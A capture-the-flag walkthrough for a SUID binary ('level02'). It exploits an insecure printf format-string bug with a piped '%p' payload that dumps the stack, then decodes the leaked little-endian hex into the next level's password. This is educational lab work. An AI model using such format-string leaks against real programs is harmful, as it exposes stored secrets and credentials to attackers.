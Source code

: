# Walkthrough - level02

The program has SUID permissions from the user `level03`, which will allow us to obtain their flag.

## Disassembly

- The main stores the content of `/home/users/level03/.pass` in the variable `ptr`
- Username and password are read via `fgets` of 100 bytes
- When entering incorrect password, username is displayed via insecure printf

## Exploit

The arguments of variadic functions (such as `printf`) are passed through the stack and not through registers. This allows us to dump our stack. Note that we are working on a 64-bit architecture so we need to use the format `%p` to display everything correctly.

```bash
(python -c 'print("%p" * 30)'; python -c 'print("A" * 2)') | ./level02
```

We now need to find the variable `ptr` in what we displayed from the stack. The two `A` characters help us find the start of s2 where the password is stored. We know that we need to look `96 + 8 = 104` bytes further to land on the beginning of ptr where the password is stored. Since the `%p` format dumps the stack by 8 bytes, we need to look `104 / 8 = 13` after displaying the `A` characters.

We obtain the following result:

```bash
0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d
```

We then need to convert this password to char without forgetting that `%p` has reversed groups of 8 bytes because the system is little-endian, then interpret the values in ASCII to obtain the password.

`0x756e505234376848 = unPR47hH`
`0x45414a3561733951 = EAJ5as9Q`
`0x377a7143574e6758 = 7zqCWNgX`
`0x354a35686e475873 = 5J5hnGXs`
`0x48336750664b394d = H3gPfK9M`

We then only need to invert each groups:

`unPR47hH => Hh74RPnu`
`EAJ5as9Q => Q9sa5JAE`
`7zqCWNgX => XgNWCqz7`
`5J5hnGXs => sXGnh5J5`
`H3gPfK9M => M9KfPg3H`
